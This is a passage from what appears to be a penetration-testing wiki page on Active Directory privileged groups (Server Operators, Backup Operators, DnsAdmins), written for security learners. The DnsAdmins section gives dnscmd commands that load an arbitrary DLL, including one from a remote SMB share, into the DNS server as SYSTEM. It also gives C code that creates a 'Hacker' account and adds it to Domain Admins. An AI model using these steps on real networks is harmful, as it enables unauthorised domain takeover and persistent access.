 This membership allows users to configure Domain Controllers with the following privileges:

* Allow log on locally
* Back up files and directories
* Change the system time
* Change the time zone
* Force shutdown from a remote system
* Restore files and directories
* Shut down the system

Note how we cannot access files on the DC with current membership:

![](../../.gitbook/assets/a4.png)

However, if the user belongs to `Server Operators`:

![](../../.gitbook/assets/a5.png)

The story changes:

![](../../.gitbook/assets/a6.png)

### Backup Operators <a href="#backup-operators" id="backup-operators"></a>

As with `Server Operators` membership, we can access the `DC01` file system if we belong to `Backup Operators`:

![](../../.gitbook/assets/a7.png)

### DnsAdmins

#### Resume

A user who is member of the **DNSAdmins** group or have **write privileges to a DNS** server object can load an **arbitrary DLL** with **SYSTEM** privileges on the **DNS server**.\
This is really interesting as the **Domain Controllers** are used very frequently as DNS servers.

#### Execute

Then, if you have a user inside the DNSAdmins group, you can make the DNS server load an arbitrary DLL with SYSTEM privileges. You can make the DNS server load a local or remote (shared by SMB) DLL file executing:

```
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
```

An example of a valid DLL can be found in [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL). I would change the code of the function `DnsPluginInitialize` to something like:

```c
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
		system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
		system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```
